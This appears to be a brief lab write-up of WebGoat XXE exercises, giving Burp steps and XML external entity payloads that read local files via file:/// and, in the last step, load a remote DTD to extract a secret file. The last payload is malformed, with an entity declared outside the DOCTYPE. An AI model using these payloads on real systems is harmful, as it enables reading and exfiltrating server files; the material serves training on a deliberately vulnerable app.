 # XXE
### 4
- Open Burp.
- Catch request.
- Add this:
solution is in 
<?xml version="1.0"?>
 <!DOCTYPE comment [
<!ENTITY js SYSTEM "file:///"> 
]>
<comment>  <text>&js;</text></comment>

- Send

### 7 
- Open Burp
- Catch request
- Change Content-Type to - application/xml
- and change body to 
<!DOCTYPE user [<!ENTITY js SYSTEM "file:///"> ]><comment><text>&js;</text></comment>

### 10
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'file:///home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>


<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:9090/files/gabriel/atack_11_3.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>

then content of secret.txt will appear in comment section.